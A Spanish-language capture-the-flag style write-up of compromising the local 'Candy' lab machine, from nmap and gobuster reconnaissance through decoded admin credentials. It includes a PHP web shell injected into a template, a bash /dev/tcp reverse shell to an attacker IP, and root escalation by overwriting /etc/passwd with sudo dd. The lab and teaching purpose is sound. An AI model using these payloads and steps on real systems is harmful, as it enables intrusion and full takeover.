 # Reporte Técnico - Pentesting Máquina Vulnerable **Candy**

**Nivel:** Fácil

---

## Descripción

Se descargó la máquina vulnerable y se descomprimió con:

```bash
unzip candy.zip
```

Luego se desplegó con:

```bash
sudo bash auto_deploy.sh candy.tar
```

![Despliegue de la máquina](Imágenes/2025-05-14_23-56.png)

---

![Ping a la máquina](Imágenes/Capturas.png)

---

## Conectividad

Se verificó la conexión a la máquina con un ping:

```bash
ping -c1 172.17.0.3
```

![Nmap escaneo completo](Imágenes/Capturas_1.png)

---

## Escaneo de puertos

Se ejecutó un escaneo intensivo para identificar puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Solo se encontró el puerto 80 (HTTP) abierto.
![Nmap escaneo versión y scripts](Imágenes/Capturas_2.png)

Luego, para obtener más detalles sobre el puerto 80:

```bash
nmap -sC -sV -p80 172.17.0.3 -oN target.txt
```

![Página principal](Imágenes/Capturas_3.png)

---

## Reconocimiento web

Al acceder a [http://172.17.0.3:80](http://172.17.0.3:80) se encontró una página con formulario de inicio de sesión y registro.
![Directorios encontrados](Imágenes/Capturas_4.png)

---

## Fuzzing de directorios ocultos

Se realizó fuzzing para descubrir directorios ocultos con:

```bash
gobuster dir -u http://172.17.0.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

Se encontraron los siguientes directorios:

```
/images               
/media               
/templates           
/modules              
/plugins             
/includes             
/language             
/README.txt           
/components           
/api                  
/cache                
/index.php            
/robots.txt           
/tmp                  
/LICENSE.txt          
/layouts              
/administrator       
/configuration.php    
/htaccess.txt        
/cli                 
```

![Página administrador](Imágenes/Capturas_5.png)

---

## Usuarios y credenciales

En el directorio `/administrator` se encontró el usuario `TLuisilloo`:
[http://172.17.0.3/administrator/index.php](http://172.17.0.3/administrator/index.php)
![Decodificación Base64](Imágenes/Capturas_6.png)

En `/robots.txt` se hallaron posibles credenciales codificadas:

```
admin:c2FubHVpczEyMzQ1
```

Decodificando base64 con:

```bash
echo c2FubHVpczEyMzQ1 | base64 -d
```

Obtenemos la contraseña:

```
sanluis12345
```


![Credenciales decodificadas](Imágenes/Capturas_7.png)

---
![Acceso administrador](Imágenes/Capturas_8.png)

Con estas credenciales se logró acceder como administrador:

![Página principal con sesión iniciada](Imágenes/Capturas_9.png)

---

## Subida de Webshell

En el menú `System > Site Templates` se encontró la posibilidad de subir archivos maliciosos para obtener una web shell.
![Subida de archivos maliciosos](Imágenes/Capturas_10.png)

---

## Método de explotación 1: Inyección de Web Shell PHP

Se modificó el archivo `index.php` en la línea 143 agregando:

```php
<?php echo system($_GET['shadow']); ?>
```

* **$\_GET\['shadow']**: obtiene el parámetro `shadow` de la URL.
* **system()**: ejecuta el comando del sistema operativo recibido.
* **echo**: muestra la salida del comando en el navegador.

**Ejemplo de uso:**

```
http://172.17.0.3/index.php?shadow=ls
```

Ejecuta `ls` y muestra el resultado. También:

```
http://172.17.0.3/index.php?shadow=cat%20/etc/passwd
```

Revela el contenido de `/etc/passwd`.
![Ejecutando comando ls](Imágenes/Capturas_11.png)
![Leyendo /etc/passwd](Imágenes/Capturas_12.png)

---

## Método 2: Reverse Shell en PHP

Se reutilizó el mismo código de la web shell. Desde el navegador se ejecuta:

```
http://172.17.0.3/?shadow=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.1.10/433+0>%261'
```

(Cambia la IP y puerto según tu equipo)

Se debe tener el puerto escuchando antes con:

```bash
sudo nc -lvnp 433
```

Y se obtiene acceso a una terminal remota.
![Reverse shell conexión](Imágenes/Capturas_13.png)
![Terminal remota](Imágenes/Capturas_14.png)

---

## Escalada de privilegios

Al no poder usar `sudo -l` directamente, se buscó con:

```bash
find / -name "*.txt" 2>/dev/null
```

Se encontró el archivo `/var/backups/hidden/otro_caramelo.txt` con credenciales sensibles:

```php
$db_host = 'localhost';
$db_user = 'luisillo';
$db_pass = 'luisillosuperpassword';
$db_name = 'joomla_db';
```

![Archivo con credenciales](Imágenes/Capturas_15.png)

Verificando usuarios en `/etc/passwd`, existe `luisillo`. Con estas credenciales se pudo usar:

```bash
sudo -l
```

Mostrando que `luisillo` puede usar:

```
(ALL) NOPASSWD: /bin/dd
```

![Permisos sudo](Imágenes/Capturas_16.png)

---

## Escalada final con dd

1. Copiamos `/etc/passwd` para editarla:

```bash
cat /etc/passwd > copia.txt
```

2. Eliminamos la `x` (marca de contraseña) del archivo:

```bash
sed 's/x//g' copia.txt > copia_sin_x.txt
```

3. Sobrescribimos `/etc/passwd` con la copia modificada:

```bash
cat copia_sin_x.txt | sudo /bin/dd of=/etc/passwd
```

4. Accedemos como root con:

```bash
su
```

![Acceso root](Imágenes/Capturas_17.png)

---

# Conclusión

Se logró explotar la máquina vulnerable Candy a nivel fácil, desde reconocimiento hasta escalada de privilegios root, mediante técnicas de webshell, reverse shell y explotación de permisos sudo con `dd`. Este ejercicio demuestra la importancia de proteger la ejecución remota de comandos y la correcta configuración de sudoers.

---
